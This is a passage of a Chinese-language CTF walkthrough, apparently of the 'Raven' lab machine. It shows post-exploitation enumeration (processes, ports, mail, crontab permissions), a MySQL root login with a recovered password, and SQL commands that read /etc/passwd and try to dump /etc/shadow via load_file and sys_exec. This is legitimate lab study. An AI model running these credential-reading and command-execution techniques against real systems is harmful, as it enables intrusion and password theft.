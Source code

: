 `ps -ef | grep root` 查看root用户运行的进程

`netstat -an | grep 3306` 查看端口状态
`tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN`

#### 邮件
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/7.PNG)
检查了mail，发现了邮件。没有发现特别有用的。
检查crontab，发现有一个从没见过的文件权限T。
```
michael@Raven:/var/spool/cron$ file crontabs
crontabs: sticky, directory
```
**linux文件特殊权限：**
```
现在我们要创建这样一个目录，我们可以在这个目录里创建文件，但是其他用户不能删除这个文件。

t权限的作用：只有目录/文件所有者能够删除该文件。
```
---

#### MySQL登陆
mysql -u root -p 
尝试登陆数据库，登陆失败，不知道密码

- `cd /; find . -name "wordpress"`
查找一下web目录，可能有备份文件之类的，去检查一下。
以下是感兴趣的目录：
>/var/www/html/wordpress
find: `./var/log/mysql': Permission denied


![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/8.PNG)
```
mysql -u root -p 
R@v3nSecurity 成功登陆mysql db

select load_file('/etc/passwd'); 可以查看passwd

select load_file('/etc/shadow')；不能查看该文件

select sys_exec("cat /etc/shadow > /tmp/shadow");  尝试提取shadow文件，函数不存在
```